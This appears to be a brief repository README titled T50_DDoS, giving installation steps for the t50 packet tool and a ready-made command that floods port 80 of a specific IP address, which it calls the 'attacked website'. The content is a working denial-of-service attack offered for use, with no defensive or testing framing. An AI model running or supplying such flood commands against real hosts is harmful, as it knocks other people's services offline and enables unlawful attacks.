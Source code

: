 # T50_DDoS

* Attack with Rodrigo Leal and t50.

# Command

* sudo t50 104.236.17.122 --flood -S --turbo --dport 80

* The 104.236.17.122 is the IP number of attacked website.

# Installation

* Run the commannd: sudo apt-get install t50.

* Or download the file.deb in this repository.

# A great hug to Ricardo
